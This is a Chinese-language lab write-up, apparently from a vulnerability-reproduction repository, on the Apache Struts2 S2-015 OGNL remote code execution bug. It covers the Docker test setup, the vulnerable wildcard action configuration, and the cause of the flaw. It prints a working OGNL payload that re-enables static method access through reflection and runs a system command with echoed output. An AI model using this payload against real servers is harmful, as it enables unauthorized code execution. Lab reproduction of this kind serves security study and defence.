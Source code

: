 ------

# S2-015 远程代码执行漏洞

影响版本: 2.0.0 - 2.3.14.2

漏洞详情:

- http://struts.apache.org/docs/s2-015.html

## 测试环境搭建

```plain
docker-compose build
docker-compose up -d
```

## 原理与测试

漏洞产生于配置了 Action 通配符` *`，并将其作为动态值时，解析时会将其内容执行 OGNL 表达式，例如：

```xml
<package name="S2-015" extends="struts-default">
    <action name="*" class="com.demo.action.PageAction">
        <result>/{1}.jsp</result>
    </action>
</package>
```

上述配置能让我们访问 name.action 时使用 name.jsp 来渲染页面，但是在提取 name 并解析时，对其执行了 OGNL 表达式解析，所以导致命令执行。在实践复现的时候发现，由于 name 值的位置比较特殊，一些特殊的字符如 / " \ 都无法使用（转义也不行），所以在利用该点进行远程命令执行时一些带有路径的命令可能无法执行成功。

还有需要说明的就是在 Struts 2.3.14.1 - Struts 2.3.14.2 的更新内容中，删除了 SecurityMemberAccess 类中的  setAllowStaticMethodAccess 方法，因此在 2.3.14.2 版本以后都不能直接通过 `#_memberAccess['allowStaticMethodAccess']=true` 来修改其值达到重获静态方法调用的能力。

这里为了到达执行命令的目的可以用 kxlzx 提到的调用动态方法 (new java.lang.ProcessBuilder('calc')).start() 来解决，另外还可以借助 Java 反射机制去间接修改：

```plain
#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true)
```

可以构造 Payload 如下：

```plain
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```

直接回显：

![img](assets/1670312113138-2127345e-c188-42d0-b50e-8e3cdb7e6771.png)

